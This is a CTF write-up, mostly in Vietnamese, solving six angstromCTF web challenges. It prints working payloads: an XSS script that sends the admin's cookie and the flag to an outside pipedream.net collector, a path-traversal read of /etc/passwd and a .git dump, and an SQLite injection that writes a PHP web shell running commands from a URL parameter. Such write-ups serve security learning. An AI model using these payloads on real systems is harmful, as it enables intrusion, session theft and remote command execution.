

# angstromCTF

# ****The Flash****

`actf{sp33dy_l1ke_th3_fl4sh}`



# Auth Skip

```jsx
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});
```

```bash
curl https://auth-skip.web.actf.co/ --cookie "user=admin"
>actf{passwordless_authentication_is_the_new_hip_thing
```


# Crumb

```jsx
let curr = crypto.randomUUID();
let first = curr;

for (let i = 0; i < 1000; ++i) {
    paths[curr] = crypto.randomUUID();
    curr = paths[curr];
}

paths[curr] = "flag";

app.use(express.urlencoded({ extended: false }));

app.get("/:slug", (req, res) => {
    if (paths[req.params.slug] === "flag") {
        res.status(200).type("text/plain").send(flag);
    } else if (paths[req.params.slug]) {
        res.status(200)
            .type("text/plain")
            .send(`Go to ${paths[req.params.slug]}`);
    } else {
        res.status(200).type("text/plain").send("Broke the trail of crumbs...");
    }
});
```

```jsx
var uid = '';
var url = ''
for (let index = 0; index < 1001; index++) {
    url = "https://crumbs.web.actf.co/" + uid;
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    var resp = xmlHttp.responseText;
    var myRegexp = /Go to (.*)/;
    var match = myRegexp.exec(resp);
    if (match) uid=match[1];  
    else {
        console.log(resp);
        break;
    } 
    console.log(index + ': ' + uid);
}
```

`actf{w4ke_up_to_th3_m0on_6bdc10d7c6d5}`


# ****Xtra Salty Sardines****

```jsx
// the admin bot will be able to access this
app.get("/flag", (req, res) => {
    if (req.cookies.secret === secret) {
        res.send(flag);
    } else {
        res.send("you can't view this >:(");
    }
});
```

```jsx
// no pesky chars allowed
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```

`&"'<><script>alert(1)</script>`


```html
&"'<>
<script>
document.location='https://eoor1c6mm76wo38.m.pipedream.net/?'+document.cookie
</script>
```


```html
&"'<>
<script>
    url = "https://xtra-salty-sardines.web.actf.co/flag";
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    var flag = xmlHttp.responseText;
    document.location='https://eoor1c6mm76wo38.m.pipedream.net/?c='+flag;
</script>
```


`actf{those_sardines_are_yummy_yummy_in_my_tummy}`

# ****Art Gallery****

Đọc source code, để ý đọan

```python
app.get("/gallery", (req, res) => {
    res.sendFile(path.join(__dirname, "images", req.query.member), (err) => {
        res.sendFile(path.join(__dirname, "error.html"))
    });
});
```

sẽ gửi file `thư-mục-hiện-tại/image/tên-file-từ-param-member` cho ta. Hơn nữa code dùng trực tiếp param `member` mà không filter gì.

→ Ta sẽ khai thác LFI

Test thử LFI với payload `../../../../etc/passwd`


Đọc file `/etc/passwd` thành công

Sau một hồi lục mòn con mắt các files có thể đọc được nhưng không có hướng đi tiếp, mình quay lại đọc description 🥲

Đọc description, ta thấy một cái hint khá to: `git all of his secrets`


Thử ngay payload `../../../../app/.git/HEAD` để đọc file `HEAD` trong folder `.git` trên folder


Oh yeah!! Vậy là tồn tại folder `.git`. Giờ kiếm tool để dump folder này về nào.

Google một lúc ra được [git-dumper](https://github.com/arthaud/git-dumper). Cài `requirement.txt` và sử dụng

```powershell
python .\git-dumper.py https://art-gallery.web.actf.co/gallery?member=../../../../app ./Art-Gallery/
```

Ta đã dump được (gần như) toàn bộ folder `.git` trên server về


Do mình quá lười để dùng git command nên mình đã ném thẳng folder vào Pycharm để nghiên cứu repo git này


Cá kiếm được flag ở commit thử 2.

`actf{lfi_me_alone_and_git_out_341n4kaf5u59v}`

# ****No Flags?****

Ngó qua website, có vẻ như web cho phép ta thêm dòng vào list flag phake


Đọc source code ta nhận ra ngay bài này sẽ khai thác SQLi do đoạn query sử dụng trực tiếp dữ liệu người dùng nhập vào

```php
if (isset($_POST["flag"])) {
    $flag = $_POST["flag"];
    $pdo->exec("INSERT INTO Flags VALUES ('$flag');");
}
```

Sau một craft payload để lục cả cái database của nó thì mình nhận ra database chẳng có cái vẹo gì ngoài table `Flags` có sẵn ☹️. Quay lại đọc mô tả mới nhận ra còn file `Dockerfile` chưa đụng đến 😵‍💫

```docker
FROM php:8.1.5-apache-bullseye

# executable that prints the flag
COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html

RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80
```

À vậy ra ta sẽ cần thực hiện RCE thực thi chương trình `printflag` để đọc flag. Phân tích thêm cái `Dockerfile` này tí:

1. File source của website sẽ được copy hết vào `/var/ww/html` và folder này chỉ có quyền `read` và `execute` cho tất cả mọi người.
2. Folder trống `/var/www/html/abyss` được tạo và có quyền ghi cho tất cả mọi người.

Trở lại vụ SQLi, sau một ngồi ngâm cứu mình đã hiểu cách để SQLitei2RCE (payload mẫu ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database)). 

Payload này sẽ tạo một file `lol.php` bằng lệnh `ATTACH`, tạo bảng `pwn` và cột `dataz` rồi chèn dòng `<?php system($_GET["cmd"])?>` vào đó. Như đã phân tích ở trên, tuy folder `/var/www/html` không có quyền `write` nhưng folder `/var/www/html/abyss` thì lại có, do đó ta sẽ tạo file `lol.php` trong folder này.  Payload gửi lên server

```
'); ATTACH DATABASE '/var/www/html/abyss/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php system($_GET["cmd"]); ?>')--
```


Lưu ý nhỏ là ta cần gửi cả 3 lệnh cùng lúc do schema `lol` sẽ chỉ tồn tại ở trong query block đó.

Sau khi ta đã có file `lol.php` ở `/var/www/html/abyss`, việc còn lại chỉ là chạy chương trình `printflag` là được.


Mặc dù file `lol.php` thực ra là file binary, nhưng khi ta để đuôi `.php` sẽ khiến server nhận diện sai và cố gắng parse file như là một file php bình thường (Những ký tự hình chữ nhật kia là những bytes mà server không parse được). Khi gặp `<?php system($_GET["cmd"]?>`, lệnh php sẽ được thực hiện. 

Ngoài ra, thay vì `<?php system($_GET["cmd"])?>` ta có thể để luôn là `<?php system("/printflag")?>`

<aside>
🚩 actf{why_do_people_still_use_php}

</aside>

# **Secure Vault**

Website cho phép ta tạo tài khoản / đăng nhập và lưu một string bất vào “vault” của bạn


Ban đầu đọc code, mình cứ ngỡ bài này sẽ crack `jwt` ~~và mình đã treo máy hơn một ngày để bruteforce 20 ký tự `jwtKey`~~. Nhưng sau một hồi bất lực và ngẫm nghĩ về tương lai sau này, mình quyết định debug từng dòng code một. 


Phân tích chút đoạn `/login` này. Server sẽ lấy object `user` từ `username` trong request. Phần `users.get()` sẽ trả về object `user` nếu tồn tại username, hoặc object rỗng nếu không.


Sau khi có object `user`, server tiếp tục “check `user` có tồn tại không” và `password` của user có giống `password` trong request không.

Lúc đầu đọc code, mình cứ ngỡ rằng route login không có gì để exploit do logic khá chặt chẽ. Tuy nhiên logic của coder lại hơi khác logic của Javascript 💩. Thay vì trả về `False`, object rỗng lại trả về `True`


Như vậy phần `user` trong điều kiện `if` trên sẽ luôn đúng 🤡.

Xử lí phần `password` phía sau thì dễ rồi. Ta chỉ cần bỏ param `password` trong request đi, khi đó  

`user.password === req.body.password` sẽ thành `undefined===undefined` (do object `user` rỗng không tồn tại `password` và trong `request.body` cũng không tồn tại `password`) tương đương với `True`. Tương tự, những attribute khác của `user` (`uid`, `vault`, `restricted`) cũng sẽ là `undefined`.


Sau khi đã pass được dòng `if` và login thành công, ta sẽ có cookie `token` không có `uid`. Khi dùng [jwt.io](http://jwt.io) để decode cookie `token`, trường `uid` sẽ không tồn tại như khi login bình thường


Server gán nội dung cookie vào `res.local.user` (nếu tồn tại cookie `token` hợp lệ) khi có request đến server.


Đến đoạn đọc `vault`, server gọi `users.get(res.locals.user.uid)` → lại trả về user rỗng. Do đó `user.restricted` sẽ thành `undefined` (tương đương với `False`) và trả về cho ta flag


<aside>
🚩 actf{is_this_what_uaf_is}

</aside>